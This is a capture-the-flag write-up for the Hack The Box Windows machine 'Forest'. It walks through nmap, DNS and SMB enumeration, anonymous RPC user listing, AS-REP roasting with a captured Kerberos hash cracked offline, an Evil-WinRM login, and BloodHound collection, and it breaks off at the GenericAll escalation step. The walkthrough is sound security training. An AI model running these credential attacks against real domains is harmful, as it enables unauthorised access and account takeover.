

<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running a typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.161 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-07 11:59 CEST
Nmap scan report for 10.10.10.161
Host is up (0.044s latency).
Not shown: 65239 closed tcp ports (reset), 272 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-06-07 10:08:28Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49706/tcp open  msrpc        Microsoft Windows RPC
49966/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-07T10:09:21
|_  start_date: 2025-06-07T10:00:26
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-06-07T03:09:20-07:00
|_clock-skew: mean: 2h28m11s, deviation: 4h02m31s, median: 8m10s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.43 seconds
```

<br />

Relevant open ports:

- `Port 53`   -> dns

- `Port 88`   -> kerberos

- `Port 135`  -> rpc

- `Port 139`  -> netbios

- `Port 389`  -> ldap

- `Port 445`  -> smb

- `Port 464`  -> kpasswd (kerberos password change)

- `Port 593`  -> rpc over http

- `Port 636`  -> ldaps

- `Port 5985` -> winrm

<br />

The domain `htb.local` and the FQDN `FOREST.htb.local` appear across multiple services and ports, so we add them to our `/etc/hosts` file:

<br />

```bash
10.10.10.161 htb.local FOREST.htb.local
```

<br />

# DNS Enumeration: -> Port 53

<br />

We can resolve `htb.local` to perform a DNS query with `dig`:

<br />

```bash
❯ dig htb.local @10.10.10.161

; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> htb.local @10.10.10.161
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 62451
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: 5b92f1f0c9eb1852 (echoed)
;; QUESTION SECTION:
;htb.local.			IN	A

;; ANSWER SECTION:
htb.local.		600	IN	A	10.10.10.161

;; Query time: 60 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Sat Jun 07 12:08:08 CEST 2025
;; MSG SIZE  rcvd: 66
```

<br />

But we can't do a complete zone transfer:

<br />

```bash
❯ dig axfr htb.local @10.10.10.161

; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> axfr htb.local @10.10.10.161
;; global options: +cmd
; Transfer failed.
```

<br />

# SMB Enumeration: -> Port 445

<br />

To start enumerating information about the system, we will run a typical `netexec` oneliner:

<br />

```bash
❯ netexec smb htb.local
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
```

<br />

With this output, we verify the domain `htb.local`, which we discovered before with nmap.

We can verify that we're dealing with a `Windows Server 2016 Standard` and `14393` build version.

Continuing enumeration, we use a fake user and password to get more information without success:

<br />

```bash
❯ netexec smb htb.local -u "RandomFakeUser" -p "RandomFakePass" --shares
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [-] htb.local\RandomFakeUser:RandomFakePass STATUS_LOGON_FAILURE 
```

<br />

Null session login also fails.

<br />

# RPC Enumeration: -> Port 445

<br />

As we know, we can get very relevant information like valid usernames with `rpcclient`.

To do this, we run the following command:

<br />

```bash
❯ rpcclient -U "" -N -c "enumdomusers" htb.local
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

<br />

We can list the `groups` as well:

<br />

```bash
❯ rpcclient -U "" -N -c "enumdomgroups" htb.local
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

<br />

# AS-REP Roasting Attack:

<br />

There is a well-known vulnerability called `AS-REP Roasting Attack` that can allow us to retrieve a user's Kerberos hash and brute-force it to obtain valid credentials. This [page](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/) explains the vulnerability very well

However, to perform this attack, the user must have the `DONT_REQUIRE_PREAUTH` flag set in the `UserAccountControl` attribute. 

To try this attack, we only need a list of users, and if we remember, we have a valid one obtained using `rpclient`:

<br />

```bash
Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

<br />

To check if a user meets this condition, we'll run `GetNPUsers.py`, passing in this list:

<br />

```bash
❯ GetNPUsers.py htb.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.161
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:faad32a1b15a8b2560541e965d16592f$cbbd81cde7f55b546981c92f0e046d45d12396cc9653783f5daee4b8205e87c1b0e310deffcb5d85f0888aa577703ce864a3fb26edbf1a2d028cfbedb06771bb80586688bcd25b998015b9c4a56d9218e16d6d28cb7e4d8994ab419c4fab4cbe59baad988d2bf3b7d71a11cdd4bc5261bfac00807b511ed64ea21789508fdafd06d6be8a81643447dbbf4235eddab81db670c9792276dc7911958cae5eb903d278d0b0ff69311f1e006f68d04d46923e3e2ac029991331a776788606bdbb8c26f90f0f700a08e0199dbcefcc7155902ccc377ca24db10e30bda680162aed397696a07bedd40e
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

<br />

Now that we've obtained the `AS-REP` hash for the user `svc-alfresco`, we can attempt to crack it offline using either `Hashcat` or `John the Ripper`:

<br />

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:05 DONE (2025-06-07 12:53) 0.1680g/s 686682p/s 686682c/s 686682C/s s521521..s3r3n!t
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<br />

The hash was cracked successfully.

If we try to use these credentials to log in with `Evil-WinRM`, it works:

<br />

```bash
❯ evil-winrm -i htb.local -u 'svc-alfresco' -p 's3rvice'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

<br />

Now we can retrieve the `user.txt` flag:

<br />

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
74e13bb90682f97a1a44c39a76xxxxxx
```

<br />

# Privilege Escalation: svc-alfresco -> NT AUTHORITY\SYSTEM 

<br />

Since we're already inside the target machine, we can begin gathering Active Directory information for privilege escalation. `BloodHound` is a great tool for this purpose.

<br />

## BloodHound setup:

<br />

Installing this tool can be a bit tricky if it's your first time.

To make this easier, follow this step by step guide:

<br />

- 1.- Create a directory to store all the installation resources.

<br />

```bash 
mkdir BloodHound; cd BloodHound
```

<br />

- 2.- Download the `bloodhound-cli` archive:

<br />

```bash
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
```

<br />

- 3.- Extract the contents of the archive:

<br />

```bash
❯ tar -xvzf  bloodhound-cli-linux-amd64.tar.gz
bloodhound-cli
```

<br />

- 4.- Run the BloodHound `binary` to start the automatic setup process:

<br />

```bash
❯ ./bloodhound-cli install
[+] Checking the status of Docker and the Compose plugin...
[+] The `compose` plugin is not installed, so we'll try the deprecated `docker-compose` script
[+] The `docker-compose` script is installed, so we'll use that instead
[+] Starting BloodHound environment installation
[+] Downloading the production YAML file from https://raw.githubusercontent.com/SpecterOps/BloodHound_CLI/refs/heads/main/docker-compose.yml...
[+] Downloading the development YAML file from https://raw.githubusercontent.com/SpecterOps/BloodHound_CLI/refs/heads/main/docker-compose.dev.yml...
...[snip]...
[+] BloodHound is ready to go!
[+] You can log in as `admin` with this password: 7DEgjx22HQxLYTmAaoGDGMv4l4qGgF5H
[+] You can get your admin password by running: bloodhound-cli config get default_password
[+] You can access the BloodHound UI at: http://127.0.0.1:8080/ui/login
```

<br />

- 5.- Access BloodHound login panel at `http://127.0.0.1:8080/ui/login`:

<br />


<br />

- 6.- Log in with the `default password` given in the installation output and select a new one:

<br />


<br />

- 7.- Once inside, we'll see the following message:

<br />


<br />

As shown, we need to upload a file with our Windows system target information.

<br />

### bloodhound-python:

<br />

To collect this information remotely, we will use [bloodhound-python](https://github.com/dirkjanm/BloodHound.py).

The only command that we need to execute is the following:

<br />

```bash
❯ bloodhound-python -u 'svc-alfresco' -p 's3rvice' -c All -d htb.local -ns 10.10.10.161 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 17S
INFO: Compressing output into 20250607140718_bloodhound.zip
```

<br />

There was an error in the output: `"Clock skew too great"`.

This error indicates that there's a significant time difference between our system and the target.

The solution is to run `ntpdate`:

<br />

```bash
❯ ntpdate 10.10.10.161
2025-06-07 14:17:19.42273 (+0200) +490.993989 +/- 0.022237 10.10.10.161 s1 no-leap
CLOCK: time stepped by 490.993989
```

<br />

And run `bloodhound-python` again:

<br />

```bash
❯ bloodhound-python -u 'svc-alfresco' -p 's3rvice' -c All -d htb.local -ns 10.10.10.161 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 15S
INFO: Compressing output into 20250607141748_bloodhound.zip
```

<br />

Now that we have the `.zip` file, we can upload it to `BloodHound` for analysis by clicking on `"Start by uploading your data"` -> `"Upload File(s)"`.

Once the file is correctly uploaded and ingested, we can click on `"Explore"` -> `"Cypher"` and search for `"Shortest Paths to Domain Admins"`:

<br />


<br />

There is two things to pass from `svc-alfresco` user to `Administrator`.

<br />

## Join Exchange Windows Permissions:

<br />

Our user `svc-alfresco`, is inside `Service Accounts` group, which is inside `Privileged IT Accounts` which, at the same time, is inside `Account Operators`.

Basically, because this nested groups, `svc-alfresco` is member of `Account Operators` group. Members of this group, have the `Generic All privilege` on `Exchange Windows Permissions` group.

If we righ-click on `"GenericAll"` -> `"Windows Abuse"` we will find a step by step to escalate abusing this privilege:

<br />


 
<br />
